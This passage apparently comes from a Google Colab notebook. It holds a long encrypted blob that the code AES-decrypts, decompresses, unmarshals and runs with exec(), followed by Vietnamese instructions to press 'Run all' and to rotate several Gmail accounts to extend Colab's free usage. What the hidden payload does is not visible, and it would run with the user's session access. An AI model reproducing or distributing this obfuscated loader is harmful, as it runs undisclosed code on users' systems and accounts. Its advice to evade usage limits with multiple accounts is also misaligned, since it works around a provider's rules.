2(3M%QUp~E1!Ou(t4Q5I{`k|uP)gdT!HR7tKVI^=eQOo>F$A?<M{KEPw+j#itB?LxOOC1J45Tr-APEPqf#_huUB8bFe4u}Ned`Urkz3BoDC^E!!>nnONAtp%YZvzF?B4ix5*&Kpj+ZNyL3>#ah?#bGL4fa$J7SH1iO#3Oc0lS^6dWque;87GvmiaMc6auz4CF>+ljZW6+mSr1x8Cp2U357tpx$g3N##Kxk1`0r|0ySqamXrD@EZS(P8iHOjP$qp}tjrigpbn)H_$dv80OPd7;D4!YE`D;o_+a>We?TB2f9O9d{4!&@Eyrr!CLYt4G7#*`<|8I(`R{Fd4up@+#Y4-cfjuf8UXBx(G1A0uS)aJ46Zc5Ubns3YuzOz@irEIRUcAmS2ALH1S1LWjJ_aT?I&m&mi~DiOQH~ku!S&CZ&3p#7l1xfa*^%N0zro`=|8hpj&Vqo|ar&C14;2jA34*Us@1=qGy#b)_7Z|{j3DkP#%u6nS~P$@txPU6tAyn#MPQTtY;*Q-z)vojjRz?FOR^fn?EJqn_lYzLwjy8rkfkn5h0Oalw+bNlwV-<gA%c=hI$qsrGbpNnh-uGQh=LQbz^Jk8%~$gKb&NQ*1N^+cx=tXGcGKyg=%xkBuU52A_&pwf@U0Lf3K=~9hv4x5!&WA&+w}b6>tahN|V2W#!>selM|7+d|>zutYUKeZ4Z#(F`ayIiK&!v7X1&zFz2HuTm+IK8WsRF+phj0^eBq{Kf+yD*!dlK!&@5^jO3gT$|qk8g@eL7JpctnrF8*2G7B>tQ|9FEgbv|LjNHxS+1iY6X2xO;Ej!x}K2LOrx$IhZLvAU~GBfxLruifE#~;<9ef{@$rs&YEtH_;-qs)-n_k4;s-S(5mvaekJ`CSq~XMRBLaZ-(XF`#n~tbnf7YMx4$4`!Gsps*lI>{Mo6%D$P^Dfalb9FZNo7hv_!zVV4AF!V<_oJ*!vN$tWuO{EL1<YS93oW*{F>3mP|N9q+F=0rl*O<*N}dWth)-GQ{?Tq#`@FJC<pUKY_<;DaWs1Q+k(Mp5rwXy7o%Dkd%T){URU@~L|Epo{-^%<h}5F|EKbshvQem;NmQ)6}EBP`}B1@FwHXDagomypfRa5rP1+de^C#cd9;8+?Wz_WhF&*9!bTlT>wveRw(iar`@Udve_r}eH+9MeU(e(+72gCfQCd>EY)v?M^#XM#nC~84u40)+pK)&D|2ozq`e`6Ni6}o;n93tL!Ef0-V})Gq24HyRMv+}fYN|yh;)a4@;?Y%p%d8KK2rAcd2Z5S7*hzQqLI`zxjLY<bDg!zcHG;s<Tj0b2}`E?63@A3($O^UiZJ0c0nln=eH(MMR?=}A5O|m<$2lcO7nqU1?U00Q^pd(kT9m*Q#6q_ik^k)vYmfw8GH)+@GfUY-@B>Xh(mXOMl)%JM-fQ|Ak)uGuvQQA|FC71=Q5bXZlDT@AQJlR@wddkY^N5uUW67ZOh}_=t+85YcRu5P)WUEzf^)Ics%M)9~GI<X}su5MGgH6T~DJ4ZefFs8*NTMv*BpzXEL^&2N+Av|E3{TDrV{M|7%D-JLTww!HKsw=6Izpx@eB;B+z4cmAk8E-#b#(m<yL72{@ZTLE=iWzXElBMP(Xk2!M7C*X)n(VRLt`sfqaRS)rH*`EW7{YUS9>{bmAr#Ykq$I~I5=n)$G5gex!ye~@5d<FkhoVNgICm{mRxdpm7)@=P9Y-*7omYuw4Hl$<$d+$23=NFYoxK({KRIvck`INn3xlb8?{Uu?lGEmq9)UuEj#)l>GNkTZ+<Nqh)Fq+VyQ5!&oSBUx*_@gpV&_N)Z09KnUq)Z4&ia5kb9ZWh;t{J@F10zj9I7u_&nx4tDSZLCx1I@R~qpGpfIr*t@6t8H=IWzS&}pyPJ}3dc&XGmMd59<gv95E;Nj4xmEy8#8)41m7rQnDm&MWLuVXB0>{E%0QlX%s9GCe4XKEh}4pELUg*DsCD(>OYPmI=Ashi6UgTjVTIu7<+1#kAcbV+Bhb_PFe#;d?o|9pkIvIw_eM{*xrHI40Do1ScrGgt({brW~QBUi3ywQh%I+j5Ve3GSGzW;t2pgNXM4vCxk&u>u&%wdz>gDg0b))ZpkpYkn`+DRW$KWxdaK8HZG&N+3H^J?$>I%!CV!RES<^&z(+#4;(^ER5lZ>$t;pgeE~9~9Up3y7n7#LoNKpZhQIWIM|0I15B#N=%ZD%-#Ne*W=Adr_I}ccUzirI9k+3o=2jYJsiy^ZH9+=tCQ@XTW!572XaK87O{cP{I921s`64rhM-@P)<H=T}Ou0Ai#I@^W4Lx4;6%zScig+6grI*So?za-b!jywSG`#jK>T^cwPbA}@t%3lss6`r>61{$ACiIAXi`FG+4Y<3z_x41X)MuE)5!FvQU3bzS~eMPZA;+fS<T#X8{wd`+TN=ms&OC!h8H!cb1L!wyi4xKZKMUNn?$~f_cQ|1Vqed$fXkGI?F<!F{nh>V0uK9tvg^NP1TeZ>DZ+C*H`$r_HIk-yVcsRa}!msV_Tmg#?%h$WXgGhX9*0Ws<f9C>=;x$7h?9R~pYnzMN<Xn0}%mtDPj+r!-qx>h_KpmLWK$Iu4_)F=Rk%Om1Nr(j1{DzEjKwo21jboU^U+<1(w&r7sOI;HCdq`@OBu=3L!Z}Yr<c??VI$CK(62DsU+5MWf(dG@ARz-XcJtzghZ6*5C0dcmH&>QPcC-saqU>#bxV6t`DVtr-7#|AwiIxpBLd$F;+*bg`k1nUQQf7h*$N&TAt@e)g4I9c7hp<cvvTDe2a=gb3XQUyy(!mAZG?3A<Wv<=qTAtixv$sg`Ou)0oY4s%X+s+lrxrn2S1@J((DSeV#(c5Mg_8ek$zA#9aCgeQOBIQ3q{|MAv(Bl>MAn9(}O`{iOtyA8pYmGKQ5MHU|O8_i6%X_|i#Ggm(~Fq|KNoby~*2HF1&*F+e5q@<qc#5C1u@tG5jbjUV!=pf}y3)goYm{bWTKyQs-e+R~!0C4p)s==o!tT~8&lJKilyls$>qaZy$9#cDW%z*XNx>>=6v8)jD`?ZB;hL92RWH@YvI!)?hxi1yYM6W<_9n`V^7Ul(*?QXQ=V5KHNV{g-JU`CJ1i4-&$kN{Xc_v>I2@=7@*@Uj~+O@8^KA9gtxH@1t@zw3Kvm{^#^nsC>boc3R-zz7(P7?ow8(6}hD<zDK0o`mhCv^hnjt0Z_l$kE~rZKeEo}a(Z6ppLn`lr<Bbrl(|pKKXe4C@ULD_4_{$=rY{*#Lg*J2X5*mJ3mRJ#?pt{aul9!_7!qTjf80HTea_U?buUu+;XDIgCiLT}aUN2M-VXAncA`vErPAD2{1d;rtj%+vh;*zu<;EmQuPV)NPmIcWS<DTp#(75$eK`J7VtlshYdPN1$-@$*UehHy7PSj<^Sv#CNFCY!bw?aa^=gZ6W&a@3mo-$t`!HK@D4^=|7!~kM^Pa8vi@^K9TTDlB>4)(`%}ql}0hPrf?_m-aEbiQCv|J4z=}F=X-%98Y9l|?#=2|FUGAmx$$set&3_;D$TGUa<Gl^DiRFET{no#O$&oNHky|3uFC~3?`s%~}bbM@EWFMlATsG*Fj@Z`vS1*sh(;;U^}Zs4l+J8|ig8p1pqG<5c-23buWSa(sD_ls1Io{x0|)R1Pf7r2{TlDo5(LGPvZyvX1lZjq~`2C+N5mq)^u#Os_#(<x^KB-rX1TEak&kg91T@=kpjKV2+r69*}OMB|KbVSBqN-lcn`NWQI4dS8c$Zm~M?^gqKdH$7SghQr<;Ja#@YeQ$E6XlRJakiF2l%{T5Iaor|bp=Rgt{z~^on@q^1?MN9`R&)GO<obxRf-?v+#K9P^?@%VNa-X*bJE-O$*X|0)aM0RGkW*BX1{-yWB3gY^PlGDH)o}aSO=0nq-+SC9`2(+)Jd9iU>>uv`Hmrs*TFiSKTf(BX-$uk*U`~OHSVccebcONlJM{smeGbN|UH}FTcuaz^>JQ-UTDj7NO6{uklAqdG)8_U&JYgM4-jUh0XU?l29wZCKCOyOd{+Oqs3J$n|&jVLELREKmvilz1+tHz0JM7}oQ$4#@@U{cr!d^0HBZKDcl9^Z&<kSJODSE?K@Z#6mWKB6N0|JcQ2U1k)0fDUs__%$k>4Z`MCms~y2kiLV80q(sTMPMDSqHhMYWL0aM$9_)R<v>-_O@I^8dpTx5++M-95K4NC6HYS@my{1z@eHhM@1uDSnb0WGWrgmxMyo1-}5&Jm@JNH;;-pUUcON5fh~%Rp^x3V&5vju7652B8f(>?a^;(~ylx~L(wqc%Yky);NI*B>30qjZhu7;)fyFW4|G;OQ7LSW+Sr_7+;f#`HND_WwRq>qR3vOL&o=g`S3?O(diqveiX0m{Xjau%xZ`y>4*pE7G=UT09Q-==NFy3jh!qN|Rog6cWL7g_PqizP~lEB*IvdoagJLm4xQN<v+W;rGjL_T1Ljmn-X7TeEErcBKs^4$bsOkA1}SAsGsj0NtB70sH?=nTlcKgmxE=USFT0hb}EG%iP)eRMc4kPWRf70>ZQM>&bvg^m5(cD*P&FP<-BpEEuB8i;EB?fBhS$SVaFBR-L|+!QBm2(o`okO{=IsC^=4x8n(6EbH<h)av1cl$+eWIF1>g6K_Ch{tf2tj#npSW99~3ngRjlj8EJi(<tTZ_^vT(8Ujc(AJ}sQupY@z4BMwyezAAbJ0)ZS2?=M{0R9B?)(bcU(M5j<;(yVDG}XY%wB?<^D)$o)!MgFQQ3+l}3RQ%#d?{fDppg#iBk7tgu$b5NRoEYQ@Qqa6-f2R_ZN7iX9z`>&eRZpo&r}FpWy!@g>K4Ab1<6i63git*hMQyF?oo7;mjOx=+<Wvt=K)39W3Bd3DOLlaz04!6R1JpAAIUyjbS<d*0-akG1g89jCMXI}_JCjG-{AB>eVY6dcYDXS4Xmlp`{6@@VI!YgA?3C{ELPeReCizC`FCrs9T+OO(v^1NOk=X(ucvRPtNHi~e$P6~=sR$ljQA@qIJ)6za*Xr)Oqb=vLa~>P#wHK^CKdi-SWk;B(ZuOiPouOCvgs-arn&mQekj}wFw#T<hbGW8|FB@(^v7`WC{>1pOE~6I7ZsH!fn)`Cf>)vc1Sb%U{VjA+jb?|$j_}DHgj!~zW6NpiqiDcE=3q}k@4=aWqqCAXf6aT*5$*QH3}d2S$lDy({-pP4*#(xf6hp_}F&r+Q|MnD%Z913m!4Lf0%<1BPV(jauHHkTcmTKfTB0_N0s&7B2s3v;+dXN*$O5(IsC&fpnxENMLgpf@BKCrI2S;%4`5`#qS>EWw$u%Sq~NJeVJ!97N*?)uRP>fQ^6ltQ_>7ksvoi*|F$RRwkXQ;s!pE^RG(u2JMCRP~t(*CmVo!tJ&gO@@(|Weg~^ZFWqd<C=UP-zh8+0y#|MyS+BH()>ISu?(o4Az;+qFgWZK$<Oxzad!cT7pC7~j`uE<L4X#QQm~MIP;vCQ4JVya4>7w6;Co}LZ!60%'
    cipher = AES.new(_KEY, AES.MODE_CBC, _IV)
    encrypted_data = base64.b85decode(encrypted.encode("utf-8"))
    decrypted_data = unpad(cipher.decrypt(encrypted_data), 16)
    decompressed_data = zlib.decompress(decrypted_data)
    code = marshal.loads(decompressed_data)
    globals_ns = globals()
    exec(code, globals_ns, globals_ns)


_run()

# 👉 HƯỚNG DẪN BẰNG HÌNH ẢNH:
# SAU KHI ĐÃ BẤM "CHẠY TẤT CẢ" VÀ ĐÃ KẾT NỐI VỚI SERVER CỦA GOOGLE COLAB
* Mỗi gmail Google sẽ cho dùng Colab miễn phí khoảng 5 giờ mỗi ngày (hoặc ít hơn tùy vào Google)
* Sau khi dùng hết, thời gian miễn phí này sẽ hồi lại trong 24 giờ tiếp theo (có thể đến 48 giờ nếu Google không đủ tài nguyên)
* Bạn hãy dùng nhiều gmail thay phiên để tối ưu thời gian miễn phí của nó.









